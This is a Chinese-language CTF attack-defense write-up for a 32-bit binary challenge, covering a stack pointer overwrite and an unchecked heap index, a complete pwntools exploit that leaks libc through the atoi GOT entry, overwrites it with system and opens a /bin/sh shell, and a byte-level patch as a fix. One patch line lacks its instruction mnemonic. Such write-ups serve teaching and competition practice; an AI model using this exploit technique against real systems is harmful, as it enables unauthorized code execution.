



# awd

本次awd共2道web一道pwn

队友：Doddy & mysid

从上午的个人赛发现几乎都没什么人会pwn，疯狂拿分夺得第三！

## pwn赛题

> 题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到

1. `main`函数中输入菜单项时，在栈上存在可以覆盖的指针，随后可以对指针写入任意内容



> [!IMPORTANT]
> `"%4094s"`不允许修改，否则过不了check



2. `edit`函数中输入的索引可以基于`heap`做任意写，未经检查



## 个人题解

可以先利用任意地址写把`GOT[atoi]`写到`heap`上，这样`show`就能leak libc；
然后再利用`edit`就可以把`system`的地址写上去，最后输入 *'/bin/sh'* 就可以拿shell

> [!INFO]
> 本来想再次利用scanf原语的，但是输入的是`system`的数字，实际写的时候却变成了-1，
> 知道原因的话可以开一个 discussion

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './pwn3'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib32/libc.so.6')
    else:
        sh = remote('10.103.2.3', 9999)
        libc = ELF('./libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'shop===', b'1'.ljust(0x30, b'\0') + p32(elf.symbols['heap']))
    sh.sendlineafter(b'Size', str(elf.got['atoi']).encode())
    sh.sendlineafter(b'shop===', b'3')
    sh.sendlineafter(b'Index', b'0')
    sh.recvuntil(b'content:')
    
    libcBase = u32(sh.recv(4)) - libc.symbols['atoi']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    info(f'system@{libc.symbols["system"]:#x}')

    sh.sendlineafter(b'shop===', b'4'.ljust(0x30, b'\0') + p32(elf.got['atoi']))
    # sh.sendlineafter(b'Size', str(libc.symbols['system']).encode())
    sh.sendlineafter(b'Index', b'-7')
    sh.sendlineafter(b'content:', p32(libc.symbols['system']))
    sh.sendlineafter(b'shop===', b'/bin/sh')

    sh.clean()
    sh.interactive()
```

## 参考修复方案

先上个通用沙箱，然后patch一些问题

```diff
--- orig.S
+++ patched.S
@@ -8049b69,8049b7c +8049b69,8049b7c @@
 ; main
-8d 85 f4 ef ff ff      lea eax, [ebp - 0x100c]
-83 c0 30               add eax, 0x30
-8b 00                  mov eax, DWORD PTR [eax]
+8d 83 60 00 00 00      lea eax, [ebx + 0x60]   ; &data_start
+90                     nop
+90                     nop
+90                     nop
+90                     nop
 83 ec 0c               sub esp, 0xc
 50                     push eax
 e8 2a fa ff ff         call add
@@ -8049a95,8049ab3 +8049a95,8049ab3 @@
 ; edit
 8b 45 f0               mov eax, DWORD PTR [ebp - 0x10]
 8d 14 85 00 00 00 00   lea edx, [eax * 4]
-8d 83 70 00 00 00      lea eax, [ebx + 0x70]
-01 d0                  add eax, edx
+8d 83 68 00 00 00      eax, [ebx + 0x68]       ; &DW.ref.__gxx_personality_v0
+90                     nop
+90                     nop
 83 ec 04               sub esp, 0x4
 6a 08                  push 0x8
 50                     push eax
 6a 00                  push 0x0
 e8 0c f8 ff ff         call read
```

第一处修改，把地址修改为bss上的地址个人认为比较好，但是第二处修改由于本质上没有做检查，
实际上有所疏漏

